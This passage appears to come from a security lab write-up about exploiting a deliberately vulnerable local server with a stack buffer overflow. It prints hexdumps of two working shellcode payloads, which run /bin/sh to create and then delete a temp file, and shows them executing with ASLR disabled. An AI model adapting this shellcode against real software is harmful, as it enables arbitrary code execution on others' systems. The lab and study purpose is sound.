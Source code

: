 I implemented `payload.py` to automate the payload generation and created 2 payloads:

```
$ hexdump -C payload-touch                                              
00000000  48 b8 2f 62 69 6e 2f 73  68 00 99 50 54 5f 52 66  |H./bin/sh..PT_Rf|
00000010  68 2d 63 54 5e 52 e8 0f  00 00 00 74 6f 75 63 68  |h-cT^R.....touch|
00000020  20 2e 74 6d 70 64 61 74  61 00 56 57 54 5e 6a 3b  | .tmpdata.VWT^j;|
00000030  58 0f 05 78 78 78 78 78  78 78 78 78 78 78 78 78  |X..xxxxxxxxxxxxx|
00000040  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
*
00000070  78 78 78 78 78 78 78 78  30 dc ff ff ff 7f 00 00  |xxxxxxxx0.......|
00000080
```

```
$ hexdump -C payload-rm   
00000000  48 b8 2f 62 69 6e 2f 73  68 00 99 50 54 5f 52 66  |H./bin/sh..PT_Rf|
00000010  68 2d 63 54 5e 52 e8 0c  00 00 00 72 6d 20 2e 74  |h-cT^R.....rm .t|
00000020  6d 70 64 61 74 61 00 56  57 54 5e 6a 3b 58 0f 05  |mpdata.VWT^j;X..|
00000030  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
*
00000070  78 78 78 78 78 78 78 78  30 dc ff ff ff 7f 00 00  |xxxxxxxx0.......|
00000080
```

Now we can test our payloads:

```
$ setarch `uname -m` -R /bin/bash
$ ls -la
total 40
...
drwxr-xr-x. 1 gemesa gemesa   108 Dec  6 19:32 target
drwxr-xr-x. 1 gemesa gemesa    26 Nov 29 10:18 .vscode
$ build/bof-server-pie2 < lab/buffer-overflow/payload-touch
0x7fffffffdc30
enter the password:
wrong password
authenticated
your files:
arsenal  build	Cargo.lock  Cargo.toml	lab  LICENSE  Makefile	notes  README.md  target
$ ls -la
total 40
...
drwxr-xr-x. 1 gemesa gemesa   108 Dec  6 19:32 target
-rw-r--r--. 1 gemesa gemesa     0 Dec  7 15:40 .tmpdata
drwxr-xr-x. 1 gemesa gemesa    26 Nov 29 10:18 .vscode
$ build/bof-server-pie2 < lab/buffer-overflow/payload-rm
0x7fffffffdc30
enter the password:
wrong password
authenticated
your files:
arsenal  build	Cargo.lock  Cargo.toml	lab  LICENSE  Makefile	notes  README.md  target
$ ls -la
total 40
...
drwxr-xr-x. 1 gemesa gemesa   108 Dec  6 19:32 target
drwxr-xr-x. 1 gemesa gemesa    26 Nov 29 10:18 .vscode
```

